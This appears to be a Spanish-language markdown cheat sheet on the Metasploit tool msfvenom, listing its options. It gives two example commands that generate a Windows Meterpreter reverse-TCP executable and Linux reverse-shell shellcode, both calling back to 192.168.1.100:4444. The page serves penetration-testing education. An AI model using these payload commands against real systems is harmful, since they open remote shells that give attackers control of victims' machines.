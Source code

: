 ### **Explotación/Generación de Payloads/msfvenom.md**

# msfvenom

## Descripción

`msfvenom` es una herramienta utilizada para generar payloads personalizados que pueden ser utilizados en pruebas de penetración. Forma parte del framework Metasploit y permite crear ejecutables maliciosos para diversas plataformas.

## Uso

```bash
msfvenom [opciones]
```

### Opciones principales

- `-p`: Especifica el payload a utilizar.
- `-a`: Define la arquitectura (x86, x64).
- `--platform`: Especifica la plataforma objetivo (Windows, Linux).
- `-e`: Utiliza un encoder para el payload.
- `-i`: Número de iteraciones de encoding.
- `-f`: Formato de salida (exe, elf, raw).
- `-o`: Archivo de salida.
- `LHOST`: Dirección IP para conectar de regreso.
- `LPORT`: Puerto para conectar de regreso.

## Ejemplos

- Generar un payload reverse TCP para Windows:

  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o payload.exe
  ```

- Generar un shellcode en formato c:

  ```bash
  msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f c
  ```
